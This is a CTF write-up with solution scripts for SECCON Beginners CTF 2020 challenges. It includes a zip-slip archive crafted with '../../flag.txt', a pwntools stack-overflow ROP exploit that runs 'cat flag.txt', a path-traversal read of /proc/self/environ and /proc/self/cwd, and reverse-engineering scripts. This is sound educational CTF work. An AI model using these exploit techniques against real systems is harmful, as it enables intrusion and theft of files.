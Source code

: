 # SECCON Beginners CTF 2020

- https://github.com/SECCON/Beginners_CTF_2020

## web

### unzip

- https://github.com/SECCON/Beginners_CTF_2020/tree/master/web/unzip

#### Solution 1

```zsh
echo hello > __X__Xflag.txt
7z a 1.zip __X__Xflag.txt
hexer 1.zip
```

hexer で編集する。
`__X__Xflag.txt` が2か所あるので、`../../flag.txt` に書き換える。

## rev

### mask

IDA または Ghidra で逆コンパイル

```c
local_98[local_e0] = local_d8[local_e0] & 0x75;
local_58[local_e0] = local_d8[local_e0] & 0xeb;

"atd4`qdedtUpetepqeUdaaeUeaqau"
"c`b bk`kj`KbababcaKbacaKiacki"
```

#### Solution 1

- https://gchq.github.io/CyberChef/#recipe=OR(%7B'option':'UTF8','string':'c%60b%20bk%60kj%60KbababcaKbacaKiacki'%7D)&input=YXRkNGBxZGVkdFVwZXRlcHFlVWRhYWVVZWFxYXU

#### Solution 2

```python
#!/usr/bin/env python3
a = bytes(b'atd4`qdedtUpetepqeUdaaeUeaqau')
b = bytes(b'c`b bk`kj`KbababcaKbacaKiacki')
print(bytes([x | y for x, y in zip(a, b)]).decode())
```

#### Solution 3

```python
#!/usr/bin/env python3
a = b'atd4`qdedtUpetepqeUdaaeUeaqau'
b = b'c`b bk`kj`KbababcaKbacaKiacki'
answer = ''
for i in range(len(a)):
    for c in range(0x20, 0x7f):
        if c & 0x75 == a[i] and c & 0xeb == b[i]:
            answer += chr(c)
            print(answer)
            break
```

#### solution 4

```python
#!/usr/bin/env python3
import angr
import claripy
proj = angr.Project('./mask', auto_load_libs=False)
max_len = 64
prefix = b'ctf4b{'
arg1 = claripy.BVS('arg1', 8*max_len)
state = proj.factory.entry_state(args=[proj.filename, arg1])
for c in arg1.chop(8):
    state.solver.add(claripy.Or(claripy.And(c >= 0x20, c <= 0x7e), c == 0))
for i, ch in enumerate(prefix):
    state.solver.add(arg1.get_byte(i) == ch)
simgr = proj.factory.simgr(state)
simgr.explore(find=lambda s: b'Correct' in s.posix.dumps(1),
              avoid=lambda s: b'Wrong' in s.posix.dumps(1))
print(simgr)
if simgr.found:
    found = simgr.found[0]
    flag = found.solver.eval(arg1, cast_to=bytes)
    print('FLAG:', flag.split(b'\x00')[0].decode())
else:
    print('No solution found')
```

## pwn

### beginners_stack

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, ROP, context, p64, process, log, remote
exe = context.binary = ELF('chall')
# io = process([exe.path])
io = remote('::1', 9001)
rop = ROP(exe)
rop.raw(rop.ret)
io.sendafter(b'Input: ', b'A'*0x20 + b'B'*0x8 + rop.chain()
             + p64(exe.symbols['win']))
io.sendlineafter(b'Congratulations!\n', b'cat flag.txt')
log.success(io.recvall(2).decode())
io.close()
```

## misc

### readme

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import log, remote
import re
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/environ')
log.success('CWD: %s', re.findall(
    b'PWD=(.+?)\x00', io.recvline())[0].decode(errors='ignore'))
io.close()
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/cwd/../flag')
log.success('FLAG: %s', io.recvline().decode(errors='ginore'))
io.close()
```

### emoemoencode

#### Solution 1

```python
#!/usr/bin/env python3
chars = [ord(ch) for ch in open('problem.txt').read()]
d = chars[0] - ord(b'c')
for ch in chars[:-1]:
    print(chr(ch - d), end='')
```
